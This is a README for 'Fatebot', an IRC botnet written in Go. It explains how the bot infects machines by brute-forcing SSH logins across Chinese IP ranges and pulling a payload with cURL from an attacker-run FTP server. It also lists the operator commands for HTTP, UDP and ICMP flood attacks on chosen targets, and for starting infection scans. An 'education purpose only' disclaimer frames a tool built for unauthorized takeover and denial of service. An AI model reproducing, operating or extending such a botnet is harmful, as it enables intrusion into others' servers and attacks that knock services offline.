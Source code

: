 <h2>Attention Attention!!! My english is terrible. I'm so sorry about that :( </h2>

# Fatebot
This is my first IRC bot for launch ddos attack, Write on Go language. For education purpose only. Please test it on your lab, And i create this for join university in the future not for attack anyone server with out any permission!!!

<strong>IRC commands are in the bottom of The page.</strong>

<img src="img/drfate.jpg" alt="Dr Fate">

# Infect
The infect function of this botnet is scanning by SSH port<strong>(default as 22)</strong> and login by dictionary attack.
like username "admin" and password "123456". <strong>(Scan by range of CHN network. You can add more if you want.)</strong>

This botnet use cURL to get payload from FTP server, so... please prepair your FTP server first, It very important for infect process.

<strong>[SCAN PROCESS]</strong>
<img src="img/scanprocess.png" alt="SSH scan">


# DDoS
Raw socket programming is really hard for me and I don't know about exploit development,
But raw socket need it(exploit) to get a permission for run it. So in <strong>The volumetric</strong> all of them are a simple udp and icmp flood. so DDoS function is really hard and challenge for me.

# IRC Commands
<ul>
  <li><strong>?http [url]</li></strong>
    <ul>
      <li>?http https://target.com/</li>
      - Flood HTTP get request to target.
    </ul>
</ul>

<ul>
  <li><strong>?udp [ip] [size]</li></strong>
    <ul>
      <li>?udp 192.168.1.1 500</li>
      - Flood UDP packets by random src and dst port to target. Min and Max of Buffer is 1 - 700bytes.
    </ul>
</ul>

<ul>
  <li><strong>?icmp [ip]</li></strong>
    <ul>
      <li>?udp 192.168.1.1</li>
      - Flood ICMP packets to target.(I know it's a old school DoS, lol.)
    </ul>
</ul>

<ul>
  <li><strong>?scan [ftp server]</li></strong>
    <ul>
      <li>?scan ftp://192.186.1.1/payload</li>
      - Scan CHN ip range on SSH port and get payload with cURL.
    </ul>
</ul>

<ul>
  <li><strong>?kill</li></strong>
    <ul>
      - Remove payload on bot machine and left the server.
    </ul>
</ul>

<ul>
  <li><strong>?stop.ddos</li></strong>
    <ul>
      - Stop ddos attacking.
    </ul>
</ul>

<ul>
  <li><strong>?stop.scan</li></strong>
    <ul>
      - Stop scanning.
    </ul>
</ul>
